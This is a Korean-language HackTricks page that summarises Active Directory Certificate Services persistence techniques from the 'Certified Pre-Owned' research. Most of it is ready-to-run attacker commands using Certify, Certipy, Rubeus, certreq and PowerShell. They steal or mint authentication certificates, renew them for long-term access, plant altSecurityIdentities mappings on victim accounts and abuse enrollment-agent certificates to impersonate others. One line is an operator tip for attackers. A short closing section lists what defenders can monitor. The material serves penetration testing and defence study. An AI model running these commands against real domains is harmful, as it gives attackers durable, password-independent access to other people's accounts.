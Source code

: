 # AD CS Account Persistence

{{#include ../../../banners/hacktricks-training.md}}

**이것은 [https://specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)에서의 멋진 연구의 계정 지속성 장에 대한 간단한 요약입니다.**

## 인증서로 활성 사용자 자격 증명 도난 이해하기 – PERSIST1

사용자가 도메인 인증을 허용하는 인증서를 요청할 수 있는 시나리오에서, 공격자는 이 인증서를 요청하고 훔쳐 네트워크에서 지속성을 유지할 기회를 갖습니다. 기본적으로 Active Directory의 `User` 템플릿은 이러한 요청을 허용하지만, 때때로 비활성화될 수 있습니다.

[Certify](https://github.com/GhostPack/Certify) 또는 [Certipy](https://github.com/ly4k/Certipy)를 사용하여 클라이언트 인증을 허용하는 활성화된 템플릿을 검색한 다음 요청할 수 있습니다:
```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```
인증서의 힘은 인증서가 유효한 한, 비밀번호 변경과 관계없이 소속된 사용자로서 인증할 수 있는 능력에 있습니다.

PEM을 PFX로 변환하고 이를 사용하여 TGT를 얻을 수 있습니다:
```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```
> 참고: 다른 기술과 결합하여 (THEFT 섹션 참조), 인증서 기반 인증은 LSASS에 손대지 않고 비승격 컨텍스트에서도 지속적인 접근을 허용합니다.

## 인증서를 통한 머신 지속성 확보 - PERSIST2

공격자가 호스트에서 상승된 권한을 가지고 있다면, 기본 `Machine` 템플릿을 사용하여 손상된 시스템의 머신 계정을 인증서에 등록할 수 있습니다. 머신으로 인증하면 로컬 서비스에 대해 S4U2Self를 활성화할 수 있으며, 이는 내구성 있는 호스트 지속성을 제공할 수 있습니다:
```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```
## Extending Persistence Through Certificate Renewal - PERSIST3

인증서 템플릿의 유효성 및 갱신 기간을 악용하면 공격자가 장기적인 접근을 유지할 수 있습니다. 이전에 발급된 인증서와 그 개인 키를 소유하고 있다면, 만료 전에 이를 갱신하여 원래 주체와 연결된 추가 요청 아티팩트 없이 새롭고 장기적인 자격 증명을 얻을 수 있습니다.
```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```
> 운영 팁: 공격자가 보유한 PFX 파일의 수명을 추적하고 조기에 갱신하십시오. 갱신은 또한 업데이트된 인증서가 현대 SID 매핑 확장을 포함하도록 하여 더 엄격한 DC 매핑 규칙 하에서도 사용 가능하게 유지합니다(다음 섹션 참조).

## 명시적 인증서 매핑 심기 (altSecurityIdentities) – PERSIST4

대상 계정의 `altSecurityIdentities` 속성에 쓸 수 있다면, 공격자가 제어하는 인증서를 해당 계정에 명시적으로 매핑할 수 있습니다. 이는 비밀번호 변경을 넘어 지속되며, 강력한 매핑 형식을 사용할 경우 현대 DC 집행 하에서도 기능을 유지합니다.

고수준 흐름:

1. 제어하는 클라이언트 인증서를 얻거나 발급합니다(예: `User` 템플릿에 본인으로 등록).
2. 인증서에서 강력한 식별자를 추출합니다(발급자+일련번호, SKI 또는 SHA1-PublicKey).
3. 해당 식별자를 사용하여 피해자 주체의 `altSecurityIdentities`에 명시적 매핑을 추가합니다.
4. 인증서로 인증합니다; DC는 이를 명시적 매핑을 통해 피해자에게 매핑합니다.

예제 (PowerShell) 강력한 발급자+일련번호 매핑 사용:
```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```
그런 다음 PFX로 인증합니다. Certipy는 TGT를 직접 얻습니다:
```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```
Notes  
- 강력한 매핑 유형만 사용하십시오: X509IssuerSerialNumber, X509SKI 또는 X509SHA1PublicKey. 약한 형식(Subject/Issuer, Subject-only, RFC822 이메일)은 더 이상 사용되지 않으며 DC 정책에 의해 차단될 수 있습니다.  
- 인증서 체인은 DC에서 신뢰하는 루트로 구축되어야 합니다. NTAuth의 엔터프라이즈 CA는 일반적으로 신뢰되며, 일부 환경에서는 공용 CA도 신뢰합니다.  

약한 명시적 매핑 및 공격 경로에 대한 자세한 내용은 다음을 참조하십시오:  

{{#ref}}  
domain-escalation.md  
{{#endref}}  

## Enrollment Agent as Persistence – PERSIST5  

유효한 Certificate Request Agent/Enrollment Agent 인증서를 얻으면 사용자를 대신하여 새로운 로그온 가능 인증서를 마음대로 발급할 수 있으며, 에이전트 PFX를 오프라인 상태로 유지하여 지속성 토큰으로 사용할 수 있습니다. 남용 워크플로우:
```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
/onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```
에이전트 인증서 또는 템플릿 권한의 폐기가 이 지속성을 제거하는 데 필요합니다.

## 2025 강력한 인증서 매핑 시행: 지속성에 미치는 영향

Microsoft KB5014754는 도메인 컨트롤러에서 강력한 인증서 매핑 시행을 도입했습니다. 2025년 2월 11일부터 DC는 기본적으로 전체 시행으로 설정되어 약한/모호한 매핑을 거부합니다. 실질적인 의미:

- SID 매핑 확장이 없는 2022년 이전 인증서는 DC가 전체 시행 상태일 때 암묵적 매핑에 실패할 수 있습니다. 공격자는 AD CS를 통해 인증서를 갱신하여 SID 확장을 얻거나 `altSecurityIdentities`에 강력한 명시적 매핑을 심어 접근을 유지할 수 있습니다 (PERSIST4).
- 강력한 형식(발급자+일련번호, SKI, SHA1-공개키)을 사용하는 명시적 매핑은 계속 작동합니다. 약한 형식(발급자/주체, 주체 전용, RFC822)은 차단될 수 있으며 지속성을 위해 피해야 합니다.

관리자는 다음을 모니터링하고 경고해야 합니다:
- `altSecurityIdentities`의 변경 및 등록 에이전트와 사용자 인증서의 발급/갱신.
- 대리 요청 및 비정상적인 갱신 패턴에 대한 CA 발급 로그.

## 참조

- Microsoft. KB5014754: Windows 도메인 컨트롤러의 인증서 기반 인증 변경 사항 (시행 일정 및 강력한 매핑).
https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – 명령 참조 (`req -renew`, `auth`, `shadow`).
https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference

{{#include ../../../banners/hacktricks-training.md}}
